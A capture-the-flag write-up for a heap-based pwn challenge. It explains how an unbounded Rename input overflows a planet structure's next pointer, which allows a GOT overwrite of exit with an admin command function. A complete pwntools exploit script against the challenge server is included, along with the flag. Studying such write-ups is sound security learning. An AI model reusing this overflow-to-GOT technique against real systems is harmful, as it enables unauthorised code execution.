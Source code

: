 # Intro

Protections:

```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
<br>
After submitting the password "secret_passwd_anti_bad_guys" the game is initialized and menu is unlocked:

```shell
$ ./challs
Passwd: secret_passwd_anti_bad_guys
Welcome in a new dimension...
	...Boooom... the big bang sound...
		a new universe has begun, with new physics laws...
	...here stacks look safe!
What is your next move? (Help)
>Help
Help		print help menu
Exit		close the connection
Jump		move to the next plant
GetName		get planet name
Rename		rename planet
Check		check if you can overflow the stack
GoBack		move to the previous planet
Search		looking for Zer0
Nap		    Get a nap
Admin		Access as Admin
What is your next move? (Help)
>
```
<br>
Initialization:

![img/a0.png](img/a0.png)

So 11 planet are created. They reside in the heap and each of them has the following structure:

                            ---------------
                            | planet name |
                ---------------------------
                |           | &data_40d0  |
                ---------------------------
                | next      | previous    |
                ---------------------------

- planet name: string
- &data_40d0: pointer to the "stamina" data of the game, which reside in the .data section
- next: pointer to the next planet
- previous: pointer to the previous planet


the pointer to the current planet is stored in a .bss variable


# Vulnerability

![img/a1.png](img/a1.png)

The function for renaiming the current planet gets an arbitrary length input, so we can overflow the internal data of the planet structure. Since we can overwrite "next" pointer we have a Write What Where condition.
Partial Relro gives us the possibility to write in the GOT table.

# Strategy

- Rename: write 16 characters to fill planet name and space before &data_40d0
- Print planet name: this will leak &data_40d0 address so we can calculate addresses of exit in the GOT table and the function to execute commands
- Rename: use the overflow to overwrite data and modify "next" pointer with exit@got address
- Jump: update current pointer to the next, so to point at exit@got
- Rename: overwrite exit with the admin function to execute commands
- exit: exit from menu and send the command to execute


# Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("challs")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

gs = '''
c
'''

PADDING = b'A'*16


def conn():
    if args.LOCAL:
        r = gdb.debug("./challs", gdbscript=gs)
    else:
        r = remote("gamebox3.reply.it", 2692)
    return r


def rename(r, payload):
    r.sendlineafter(">", b'Rename')
    r.sendlineafter(b'Enter the new name\n', payload)
 

def leak(r):
    r.sendlineafter(">", b'GetName')
    r.recvuntil(b'AAAAAAAAAAAAAAAA')
    return u64(r.recvuntil(b'\n').strip(b'\n').ljust(8, b'\x00'))


def jump(r):
    r.sendlineafter(">", b'Jump')


def get_flag(r):
    r.sendlineafter(">", b'Exit')
    r.sendlineafter("> ", b'cat flag')
    r.interactive()



def main():
    r = conn()
    r.sendlineafter("Passwd: ", b'secret_passwd_anti_bad_guys')
    rename(r, PADDING)
    dataleak = leak(r)
    exit_got = dataleak - 0x40
    win = dataleak - 0x284A
    print("LEAK:.......",hex(dataleak))
    print("EXIT@GOT:...",hex(exit_got))
    print("WIN:........",hex(win))
    rename(r, PADDING + b'A'*8 + p64(exit_got))
    jump(r)
    rename(r, p64(win))
    get_flag(r)   


if __name__ == "__main__":
    main()
```

# Flag
`{FLG:jump_in_jump_to_Jump}`
